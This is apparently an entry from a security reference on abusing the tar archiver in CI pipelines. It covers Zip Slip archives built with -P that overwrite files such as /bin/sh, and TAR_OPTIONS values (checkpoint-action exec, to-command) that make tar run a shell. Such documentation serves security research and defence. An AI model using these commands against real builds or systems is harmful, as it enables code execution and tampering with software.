 ```yaml
---
title: tar
tags:
- cli
- input-file
- env-var
references: https://man.freebsd.org/cgi/man.cgi?tar(1)#SECURITY
files: ['*.tar', '*.tar.gz', '*.tar.xz', '*.tar.tz', '*.tar.bz2', '*.tar.z']
---
```


`tar` is a widely used archiver.

## Zip Slip

If `tar` uses `-P` or `--absolute-names`, it is vulnerable to [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability), where a malicious archive can overwrite files in any parent directories. It can be used to:
  - Poison the source code
  - Replace an executable or a config file which can lead to RCE
To create a malicious archive:
```sh
tar cPf zipslip.tar ../../../../../../bin/sh
```

To poison:
```sh
tar xPf zipslip.tar
```

## Environnement variable

`tar` prepend **TAR_OPTIONS** env variable to every call. See [Using tar Options](https://www.gnu.org/software/tar/manual/html_section/using-tar-options.html). If the environment variable of a CI can be poison, **TAR_OPTIONS** can lead to RCE via:
```sh
export TAR_OPTIONS='--checkpoint=1 --checkpoint-action=exec=sh'
export TAR_OPTIONS='--to-command sh'
tar xf test.tar
```
